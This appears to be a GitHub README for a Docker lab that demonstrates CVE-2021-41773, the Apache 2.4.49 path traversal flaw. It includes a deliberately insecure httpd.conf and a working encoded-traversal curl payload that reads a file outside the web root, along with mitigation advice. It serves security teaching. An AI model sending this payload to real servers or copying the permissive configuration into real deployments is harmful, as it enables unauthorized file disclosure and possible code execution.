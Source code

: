 # 🛡️ CVE-2021-41773: Apache Path Traversal Vulnerability Demonstration

> Demonstration of CVE-2021-41773 using Docker, simulating real-world misconfiguration and sensitive data exposure.

## 🧠 About This Vulnerability

- **CVE ID**: CVE-2021-41773  
- **Component**: Apache HTTP Server 2.4.49  
- **Vulnerability Type**: Path Traversal / Directory Traversal  
- **Severity**: High  
- **Exploitability**: Public exploit available  
- **Impact**: Unauthorized file disclosure, potential RCE if CGI is enabled  

## ⚠️ What Causes This?

Apache 2.4.49 introduced a regression in URL path normalization. When combined with CGI support and misconfigured directory access (`<Directory /> Require all granted`), attackers could:

- Traverse directories using encoded sequences like `.%2e/`
- Access sensitive files outside the document root
- Potentially execute arbitrary code if CGI is enabled (extended in CVE-2021-42013)

## 📂 Real-World Impact

- Stealing of `.env` files, `/etc/passwd`, AWS credentials
- Disclosure of source code or private keys
- Full compromise via arbitrary code execution

## 🐳 Lab Setup with Docker

This lab demonstrates the vulnerability using Docker. It mimics a misconfigured Apache server running version 2.4.49 with CGI enabled.

### 📁 Directory Structure

```
project/
├── Dockerfile
├── cgi-bin/
│   └── test.sh
└── flag.txt
```

### ⚙️ httpd.conf

Use the default Apache config with these changes:

```apache
LoadModule cgid_module modules/mod_cgid.so
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride All
    Options +ExecCGI +Indexes +FollowSymLinks
    Require all granted
</Directory>

<Directory />
    AllowOverride All
    Require all granted
    Options +Indexes +FollowSymLinks
</Directory>
```


### 🏴 flag.txt

```
FLAG{apache_path_traversal_demo_successful}
```

---

## 🚀 Running the Lab

### Step 1: Build the Docker image

```bash
docker build -t apache-vuln .
```

### Step 2: Run the vulnerable container

```bash
docker run -d -p 8080:80 --name apache-cve \
  -v %cd%/cgi-bin:/usr/local/apache2/cgi-bin \
  apache-vuln
```

📌 **Note for Windows users**: You must run this in `Git Bash` or WSL to avoid volume mounting errors.

---

## 🎯 Exploiting the Vulnerability

### 🛠️ Normal Access

```bash
curl http://localhost:8080/cgi-bin/test.sh
```

Should output:

```html
<html><body><h1>CGI Works!</h1></body></html>
```

### 🚨 Directory Traversal

```bash
curl -v --path-as-is "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt"
```

✅ You should see the contents of `flag.txt` despite it being outside the web root.

---

## 🛡️ Mitigation

- **Upgrade** to Apache 2.4.51 or later
- Avoid setting `Require all granted` on root (`<Directory />`)
- Disable CGI unless absolutely necessary
- Use `AllowOverride None` to prevent unexpected .htaccess overrides

---

## 🧾 References

- [Apache Security Advisory](https://httpd.apache.org/security/vulnerabilities_24.html)
- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [Rapid7 Analysis](https://www.rapid7.com/blog/post/2021/10/05/cve-2021-41773-apache-httpd-path-traversal-vulnerability/)

---

## 📌 Disclaimer

> This PoC is for **educational and awareness purposes** only. All tests were conducted in an isolated lab environment. Never attempt unauthorized testing on live systems.

---

## ✍️ Author

Gautam ([@magicgautam](https://github.com/yourgithub))  
Security Researcher | Cloud Analyst | Learner

